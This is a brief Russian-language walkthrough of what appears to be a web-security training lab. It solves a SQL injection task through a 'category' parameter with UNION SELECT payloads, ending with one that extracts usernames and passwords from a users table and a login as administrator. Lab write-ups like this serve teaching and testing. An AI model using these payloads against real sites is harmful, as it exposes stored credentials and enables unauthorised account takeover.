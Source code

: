 1) Проверка, что столбцов 2  ( добавляем к "category" '+UNION+SELECT+NULL,NULL-- )
2) Добавив '+UNION+SELECT+'a','a'-- , узнаем, что оба поля содержат текст
3) Добавив '+UNION+SELECT+username,+password+FROM+users-- , извлекаем пароли
4) Находим и вводим логин и пароль для "administrator"
5) Лаба выполнена
